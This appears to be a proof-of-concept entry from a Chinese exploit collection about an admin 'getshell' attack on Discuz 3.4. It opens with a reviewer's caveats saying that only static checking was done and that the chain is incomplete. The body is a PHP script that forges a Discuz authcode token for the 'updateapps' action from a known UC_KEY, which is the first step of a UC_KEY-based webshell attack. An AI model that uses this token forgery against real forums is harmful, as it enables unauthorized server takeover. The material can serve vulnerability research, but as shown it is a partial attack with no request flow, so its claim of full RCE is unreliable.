

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：3.4 latest asserted without date; known UC_KEY; admin context implied

- **结论使用边界（1）**：Only authcode generator, no target request/XML/updateapps flow or code-write sink。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（2）**：Hardcoded UC_KEY123456 not a universal key。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（3）**：Same helper later in86, but latest3.4 vs&lt;3.4 range conflict cannot resolve from this stub。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **证据待核（4）**：One unviewed screenshot cannot establish complete RCE。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Discuz 3.4 最新版后台getshell

## 漏洞描述

最新版下载地址：https://gitee.com/Discuz/Discuz

```php
<?php
    $uc_key="123456";//
    $time = time() + 720000;
    $str = "time=".$time."&action=updateapps";
    $code = authcode($str,"ENCODE",$uc_key);
    $code = str_replace('+','%2b', $code) ;
    $code = str_replace('/','%2f', $code) ;
    echo "$code";
    function authcode($string, $operation = 'DECODE', $key = '', $expiry = 0) {
    $ckey_length = 4;

    $key = md5($key != '' ? $key : '123456');
    $keya = md5(substr($key, 0, 16));
    $keyb = md5(substr($key, 16, 16));
    $keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';
 
    $cryptkey = $keya.md5($keya.$keyc);
    $key_length = strlen($cryptkey);
 
    $string = $operation == 'DECODE' ? base64_decode(substr($string, $ckey_length)) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
    $string_length = strlen($string);
 
    $result = '';
    $box = range(0, 255);
 
    $rndkey = array();
    for($i = 0; $i <= 255; $i++) {
        $rndkey[$i] = ord($cryptkey[$i % $key_length]);
    }
 
    for($j = $i = 0; $i < 256; $i++) {
        $j = ($j + $box[$i] + $rndkey[$i]) % 256;
        $tmp = $box[$i];
        $box[$i] = $box[$j];
        $box[$j] = $tmp;
    }
 
    for($a = $j = $i = 0; $i < $string_length; $i++) {
        $a = ($a + 1) % 256;
        $j = ($j + $box[$a]) % 256;
        $tmp = $box[$a];
        $box[$a] = $box[$j];
        $box[$j] = $tmp;
        $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
    }
 
    if($operation == 'DECODE') {
        if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
            return substr($result, 26);
        } else {
                return '';
            }
    } else {
        return $keyc.str_replace('=', '', base64_encode($result));
    }
 
}
?>
```




---

> 来源：Threekiii/Awesome-POC
